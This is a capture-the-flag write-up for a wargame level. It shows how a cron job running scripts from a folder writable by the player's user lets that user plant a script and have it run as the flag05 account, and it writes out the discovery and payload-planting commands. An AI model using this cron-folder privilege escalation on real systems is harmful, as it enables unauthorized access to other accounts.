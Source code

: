 # Level05

## Context
* No file in our home

## Resolution
 * we launch the following command: ```find / -name level05 2>/dev/null``` that ouputs :
 ```/var/mail/level05 /rofs/var/mail/level05```
 * Those two files output the same content: ```*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05```. Looks like a cron task..
 * Script ```/usr/sbin/openarenaserver``` permissions are: ```-rwxr-x---+ 1 flag05 flag05```. Its content is: 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
 * ```/opt/openarenaserver/``` folder is empty and has the following permissions : ```drwxrwxr-x+ 2 root root``` 
 * ```getfacl``` command shows:
```
user:level05:rwx
user:flag05:rwx
```
 * As we have write permissions in this folder, we decide to add ```getflag_script``` into it by lauching the following command : ```echo "getflag > /var/crash/level05_output.txt" > /opt/openarenaserver/getflag_script && chmod +x /opt/openarenaserver/getflag_script```
 * We then laucnh ```crontab -e``` and copy ```/var/mail/level05``` into our crontab
 * After less than 2 minutes, we get the flag in the ```/var/crash/level05_output.txt``` file

